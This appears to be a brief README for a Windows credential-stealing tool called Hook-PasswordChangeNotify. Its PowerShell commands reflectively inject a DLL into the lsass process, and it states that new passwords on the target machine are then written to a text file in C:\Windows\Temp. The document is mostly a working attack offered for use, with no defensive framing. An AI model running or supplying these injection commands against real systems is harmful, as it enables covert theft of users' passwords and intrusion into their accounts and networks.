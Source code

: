 # Hook-PasswordChangeNotify
1、Execute flowing command in powershell:

~~~
Import-Module .\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEPath HookPasswordChange.dll -procname lsass
~~~

2、when user of target machine modify password，the new passowrd will wirte to C:\Windows\Temp\passwords.txt
